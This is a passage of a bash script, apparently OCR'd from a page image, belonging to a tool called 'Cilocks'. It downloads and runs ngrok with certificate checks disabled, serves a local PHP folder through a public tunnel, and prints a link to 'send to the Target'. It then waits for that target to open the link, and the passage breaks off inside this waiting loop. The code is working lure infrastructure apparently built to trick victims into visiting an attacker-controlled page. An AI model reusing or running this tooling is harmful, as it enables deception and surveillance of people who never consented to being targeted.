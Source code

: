   echo -e "${k}[*] Downloading Ngrok...${n}\n"
  arch=$(uname -a | grep -o 'arm' | head -n1)
  arch2=$(uname -a | grep -o 'Android' | head -n1)
  if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
  command -v wget > /dev/null 2>&1 || { echo >&2 "${m}Cilocks require wget but it's not installed. Install it. Aborting.${n}"; exit 1; }
  wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1

  if [[ -e ngrok-stable-linux-arm.zip ]]; then
  unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
  chmod +x ngrok
  rm -rf ngrok-stable-linux-arm.zip
  else
  echo -e "${m}[!] Download error... Termux?Nethunter?, run: pkg install wget${n}"
  exit 1
  fi



  else
  wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1
  if [[ -e ngrok-stable-linux-386.zip ]]; then
  command -v unzip > /dev/null 2>&1 || { echo >&2 "${m}Cilocks require unzip but it's not installed. Install it. Aborting.${n}"; exit 1; }
  unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
  chmod +x ngrok
  rm -rf ngrok-stable-linux-386.zip
  else
  echo -e "${m}[!] Download error... ${n}"
  exit 1
  fi
  fi
  fi

  echo -e "${lh}[*] Starting php server...${n}"
  php -t "info/" -S 127.0.0.1:3333 > /dev/null 2>&1 &
  sleep 2
  echo -e "${lh}[*] Starting ngrok server...${n}"
  ./ngrok http 3333 > /dev/null 2>&1 &
  sleep 10

  link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z-]*\.ngrok.io")
  echo -e "${lb}[*] Send this link to the Target:${n}" $link
  checkfound
  }

  loli(){
    start
  }
  checkfound() {

  echo -e "\n"
  echo -e "${lh} Waiting target open the link, ${n}Press Ctrl + C to exit..."
  while [ true ]; do
